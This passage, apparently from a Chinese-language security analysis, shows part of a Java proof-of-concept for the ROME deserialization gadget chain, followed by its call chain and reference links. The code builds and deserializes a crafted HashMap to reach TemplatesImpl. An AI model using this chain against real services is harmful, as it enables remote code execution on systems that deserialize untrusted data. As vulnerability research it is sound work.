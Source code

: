 ```java

        // 使用 TemplatesImpl 初始化被包装类，使其 ToStringBean 也使用 TemplatesImpl 初始化
        ObjectBean delegate = new ObjectBean(Templates.class, tmpl);

        // 使用 ObjectBean 封装这个类，使其在调用 hashCode 时会调用 ObjectBean 的 toString
        // 先封装一个无害的类
        ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "test"));

        // 放入 Map 中
        HashMap<Object, Object> map = new HashMap<>();
        map.put(root, "test");
        map.put("test", "test");

        // put 到 map 之后再反射写进去，避免触发漏洞
        Field field = ObjectBean.class.getDeclaredField("_equalsBean");
        field.setAccessible(true);
        field.set(root, new EqualsBean(ObjectBean.class, delegate));

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./rome"));
            outputStream.writeObject(map);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./rome"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

}
```
调用链：
```
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
```

参考：
[Java 反序列化漏洞（五） - ROME/BeanShell/C3P0/Clojure/Click/Vaadin](https://su18.org/post/ysoserial-su18-5/)
[ROME 反序列化分析](https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)
